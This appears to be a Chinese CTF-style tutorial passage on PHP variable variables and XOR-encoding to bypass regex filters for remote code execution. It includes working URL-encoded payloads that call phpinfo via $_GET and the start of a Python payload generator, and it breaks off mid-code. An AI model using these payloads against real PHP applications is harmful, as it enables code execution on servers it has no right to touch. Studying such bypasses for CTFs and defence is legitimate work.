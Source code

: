 ##### 变量变量

PHP 允许动态构造变量名：

```php
$var = '_GET';
$$var;  // 等价于 $_GET
${$var}[]; // 等价于 $_GET[]
```

##### 例子

`$_GET[]()`:

```php
$_GET['a']() 
//= (获取数组元素) + (函数调用)
= 'phpinfo'()  // 假设 $_GET['a'] = 'phpinfo'
= phpinfo()

// 访问数组元素：$_GET['a'] → 返回字符串 'phpinfo'
// 可变函数调用：'phpinfo'() → 执行 phpinfo 函数
```

`$_GET{}()`:

```php
$_GET[]()=$_GET{}()

/*
在 PHP 中：
[] 和 {} 在数组访问时完全等价,
PHP 7.4+ 已弃用 {} 语法，但部分环境仍兼容
*/
```

#### 编写脚本

编写一个 python 脚本来做 payload 输出, 这个脚本流程应该如下:

```
1. 以黑名单或者白名单的方式输入一个正则表达式, 提取其中的可用或者不可用字符集;
2. 做一个预备的字符集, 并根据 1. 中的结果进一步剔除字符集
3. 输入一个目标字符串, 例如 '_GET';
4. 在字符集中以按位异或的方式寻找组合, 并两两组合;
5. 由于字符集中有大量不可见字符, 最好考虑用 URL 编码后输出
```

> 这里有一个坑, 狠狠的踩了, 记录如下: 预留的字符集不应该是 0 ~ 255, 因为最终的字符集是要为 php RCE 服务的, 其字符集很可能会用做变量名或函数名, 那么要避免预留字符;
> - 例如, 考虑下面两个 payload:
>   -   1: `${%7B%7B%7B%7B^%24%3C%3E%2F}{%7B}();&%7B=phpinfo `
>   -   2: `${%86%86%86%86^%d9%c1%c3%d2}{%86}();&%86=phpinfo`
>
> 两者的目标都是执行 `_GET[phpinfo()]`, 但是 1: 会失败, 因为 1 中实际上解析的结果是 `_GET{{}();{=phpinfo`, `{` 会使解析报错, 因此这里要提前剔除这些字符

```python
import re
import sys
from urllib.parse import quote_from_bytes
from datetime import datetime

# 高风险符号的 ASCII 列表，用于二次剔除
BAD_BYTES = [123,125,36,60,62,47,59,38,40,41,61,91,93,124,34,39,96,126]

def parse_regex(expr: str):
    """
    解析正则表达式字符串，支持 '/pattern/flags' 格式。
    参数 expr 应以 '/' 开头，最后一个 '/' 之后为 flag 标志（如 i 忽略大小写）。
    返回编译后的正则对象。
```